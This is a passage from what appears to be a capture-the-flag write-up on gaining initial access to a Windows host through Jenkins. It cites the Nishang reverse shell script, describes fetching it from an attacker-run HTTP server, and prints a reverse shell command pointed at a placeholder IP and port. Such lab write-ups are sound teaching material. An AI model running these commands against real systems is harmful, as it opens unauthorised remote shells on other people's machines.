 The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to gain initial access.

### 2.2 Troubleshooting:<a name="22-troubleshooting"></a>

I was able to execute a Windows batch command via Jenkins to download the **Invoke-PowerShellTcp.ps1** which I was hosting via my `python3 -m http.server`.

![image](images/alfred-11.png)

The  second Windows batch command `Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port` somehow wasn't initializing a stable reverse shell, or simply not at all.

![image](images/alfred-12.png)

![image](images/alfred-13.png)
